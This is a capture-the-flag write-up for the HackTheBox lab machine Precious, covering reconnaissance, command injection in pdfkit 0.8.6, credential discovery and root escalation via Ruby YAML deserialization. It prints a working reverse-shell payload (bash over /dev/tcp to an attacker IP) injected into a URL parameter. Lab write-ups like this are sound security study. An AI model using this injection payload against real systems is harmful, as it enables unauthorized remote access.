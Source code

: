 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226735722-c099909e-f7c7-4d18-a68b-b9c45b85dc47.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226736215-366962c6-ee2b-488f-ad4f-17bad695c042.png)


- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226736557-b8b2f55a-1e43-489f-b733-8f6becb15b64.png)


- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226736779-32a51f2f-76c9-4960-99e5-877228e9d73f.png)


- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a `Cannot load remote URL` message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226736963-a16717a2-5bdc-4716-a69f-361849b8c829.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226737299-dd46b238-ef1d-4cd2-a25f-ba8cbc6e237b.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226737327-55719231-e332-4057-8b30-2438a105f5f8.png)


- I used the `searchsploit` command again here to see if there was anything it would find for `pdfkit v0.8.6` which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to `command injection` a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226737890-c371feca-31f6-4dda-9365-8cabb7999d1d.png)

![image](https://user-images.githubusercontent.com/61332852/226737908-9bbada7a-a4df-4f9e-bebc-a1d53eb8fe54.png)


- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. `An application could be vulnerable if it tries to render a URL that contains query string parameters with user input`. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226738055-735cb83d-6477-47b7-a278-13d4438e5304.png)


- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226738285-5386a5c2-383d-4aa4-be2f-d65efa8fff0f.png)


- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226738514-917ee43c-6457-4b3d-8c60-f577cb0495fd.png)


- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226738766-11e85f49-fef7-4ebb-8e15-eb332391227a.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226738844-bf533d21-12e3-4c40-898b-b632a743f524.png)


- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a `Yaml Deserialization Attack` allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226739595-742932f9-aa3f-4904-a482-8e5c341fbb56.png)


- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226739923-93992744-9357-4dfd-b1ab-93a74e4fc6d9.png)


- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226740263-29e5447a-2cfb-4340-89f5-185a30987b89.png)
 
